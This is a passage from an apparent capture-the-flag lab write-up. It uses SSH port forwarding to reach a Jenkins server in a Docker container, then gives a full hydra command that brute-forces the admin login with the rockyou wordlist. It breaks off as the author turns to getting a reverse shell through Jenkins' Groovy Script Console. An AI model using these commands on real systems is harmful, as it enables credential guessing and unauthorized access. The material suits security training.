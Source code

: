 ```text
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.180.69:68         0.0.0.0:*                           -  
```

We're running SOMEthing on port `8080` but it's bound to the `localhost` IP address, so we won't be able to access it from our workstation. Since we have SSH access though, we could use some SSH port forwarding.

```bash
ssh -L local_port:remote_ip:remote_port user@hostname
```

So, we can map this Jenkins port `8080` to my local machines port `8080`, so that I can access this website with my browser. We can run:

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@$TARGET
```

> **NOTE:** The `remote_ip` here is what the IP is from the perspective of the machine that we've SSH'ed into.
>
> ```mermaid
> flowchart LR
> K(Kali Workstation\n10.10.10.10) ----> T(Target\n10.10.39.226)
> T --> D(Docker Container\n172.17.0.2)
> ```
>
> So we are SSH'ing into the target, and from the target's perspective, we specify the IP address where we want to port forward, which is the underlying Docker container.
{: .prompt-info }

We can now access the Jenkins website from our workstation via: http://127.0.0.1:8080. We are presented with a login screen. Let's kick off `hydra` to see if we can find anything:

```bash
hydra -I -l "admin" -P /usr/share/wordlists/rockyou.txt \
    127.0.0.1 -s 8080 -t 50 http-post-form \
    "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Nice! We find the password for `admin` for Jenkins in about :04 minutes.

Also see: [hydra-jenkins.log](hydra-jenkins.log)

#### Reverse shell from Jenkins

Now that we are logged into the Jenkins web UI as admin, there is a "Script Console" where we can run arbitrary commands:

> <http://127.0.0.1:8080/script>

This accepts code written in "Groovy". How do you do a reverse shell in Groovy? No idea, so I go to:
